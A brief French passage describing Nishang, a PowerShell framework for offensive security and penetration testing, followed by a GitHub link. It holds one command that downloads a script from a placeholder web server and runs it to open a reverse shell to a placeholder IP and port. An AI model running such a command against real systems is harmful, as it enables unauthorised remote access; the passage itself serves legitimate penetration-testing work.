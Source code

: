  Nishang est un framework et un ensemble de scripts et de charges utiles permettant d'utiliser PowerShell pour la sécurité offensive, les tests d'intrusion et le red teaming. Nishang est utile à toutes les phases des tests d'intrusion.
 
```
powershell iex (New-Object Net.WebClient).DownloadString('http://<yourwebserver>/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress [IP] -Port [PortNo.]
```

https://github.com/samratashok/nishang